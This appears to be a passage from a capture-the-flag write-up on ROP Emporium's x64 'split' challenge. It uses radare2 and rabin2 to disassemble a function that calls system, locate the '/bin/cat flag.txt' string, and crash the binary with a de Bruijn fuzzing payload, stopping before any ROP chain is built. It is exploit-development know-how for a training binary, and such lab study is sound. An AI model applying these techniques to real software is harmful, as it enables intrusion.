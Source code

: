 # split

## x64 (x86_64)

The program flow is similar to the previous challenge, where some input is accepted and it returns. We can analyze the binary using r2 and find there is a main function which calls a pwnme function. There is also a usefulFunction which isn't actually called.

```bash
$ r2 split
[0x004005b0]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x004005b0]> s sym.usefulFunction
[0x00400742]> pdf
┌ 17: sym.usefulFunction ();
│   0x00400742      55             push rbp
│   0x00400743      4889e5         mov rbp, rsp
│   0x00400746      bf4a084000     mov edi, str._bin_ls        ; 0x40084a ; "/bin/ls"
│   0x0040074b      e810feffff     call sym.imp.system         ; int system(const char *string)
│   0x00400750      90             nop
│   0x00400751      5d             pop rbp
└   0x00400752      c3             ret
```

This calls /bin/ls which isn't useful since we want to call /bin/cat flag.txt. We can use rabin2 to find where that text is.

```bash
$ rabin2 -z split  
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
0   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```

So its at address 0x00601060.

Lets test the binary input by generating a fuzzing payload and use gdb with r2.

```bash
# creates a de bruijn sequence of length 100
$ ragg2 -P 100 -r > fuzzing.txt
$ echo '#!/usr/bin/rarun2' > profile.rr2
$ echo 'stdin=./fuzzing.txt' >> profile.rr2
$ r2 -de dbg.profile=profile.rr2 split
Process with PID 6381 started...
= attach 6381 6381
bin.baddr 0x00400000
Using 0x400000
asm.bits 64
# it uses the fuzzing payload to auto-enter it into the binary and trigger the SEGVSIG
[0x7fc7d4592090]> dc
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
[+] SIGNAL 11 errno=0 addr=0x00000000 code=128 si_pid=0 ret=0
# prints hexadecimal quad word 8 byte dump at RSP
```
